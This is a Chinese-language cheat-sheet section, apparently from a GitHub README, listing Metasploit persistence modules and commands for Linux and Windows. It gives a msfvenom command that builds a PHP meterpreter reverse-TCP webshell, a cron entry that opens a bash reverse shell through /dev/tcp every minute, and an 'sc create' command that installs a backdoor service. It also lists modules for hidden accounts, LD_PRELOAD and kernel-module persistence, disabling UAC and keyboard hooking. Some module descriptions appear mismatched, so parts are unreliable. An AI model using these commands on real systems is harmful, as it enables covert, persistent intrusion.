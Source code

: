 ### 4.3、权限持久化

##### 通用 权限持久化模块

| 模块名称             | 模块路径                                                                                               |
| ---------------- | -------------------------------------------------------------------------------------------------- |
| Web后门（如Webshell） | 生成Webshell：msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f raw > shell.php |

##### Linux 权限持久化模块

| 模块名称                   | 模块路径                                                                                             |
| ---------------------- | ------------------------------------------------------------------------------------------------ |
| 创建 Cron 持久化任务          | `post/linux/manage/cron_persistence`                                                             |
| Cron任务                 | `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" > /etc/cron.d/persistence` |
| 添加恶意用户账户               | `post/linux/manage/add_user`                                                                     |
| 创建 SSH 持久化秘钥           | `post/linux/manage/sshkey_persistence`                                                           |
| 修改系统启动脚本实现持久化          | `post/linux/manage/startup_script`                                                               |
| 创建隐藏文件用于持久化            | `post/linux/manage/hide_file_persistence`                                                        |
| 注入共享库以实现持久化            | `post/linux/manage/ld_preload_persistence`                                                       |
| 通过 Systemd 创建持久化服务     | `post/linux/manage/systemd_persistence`                                                          |
| 使用 Bash 配置文件实现隐形持久化    | `post/linux/manage/bash_profile_persistence`                                                     |
| 通过 Kernel Module 实现持久化 | `post/linux/manage/kernel_module_persistence`                                                    |

##### Windows 权限持久化模块

| 模块名称                    | 模块路径                                                             |
| ----------------------- | ---------------------------------------------------------------- |
| 服务创建                    | `sc create "UpdateService" binPath="C:\backdoor.exe" start=auto` |
| 创建恶意服务                  | `post/windows/manage/persistence_service`                        |
| 创建启动项                   | `post/windows/manage/persistence_exe`                            |
| 创建注册表启动项                | `post/windows/manage/registry_persistence`                       |
| 注册表启动项                  | `exploit/windows/local/persistence`                              |
| 创建计划任务                  | `post/windows/manage/scheduled_task`                             |
| 创建磁盘隐藏 (卷影机制持久化)        | `post/windows/manage/volume_shadow_copy`                         |
| 创建隐藏账户                  | `post/windows/manage/add_user`                                   |
| 转储并劫持令牌用于持久化            | `post/windows/manage/sticky_keys`                                |
| 停止 UAC 提高权限后持久 (关闭 UAC) | `post/windows/manage/disable_uac`                                |
| 使用 DLL 注入实现持久化          | `post/windows/manage/dll_inject_persistence`                     |
| 使用挂钩键盘的方式持久化            | `post/windows/manage/keyboard_hook`                              |
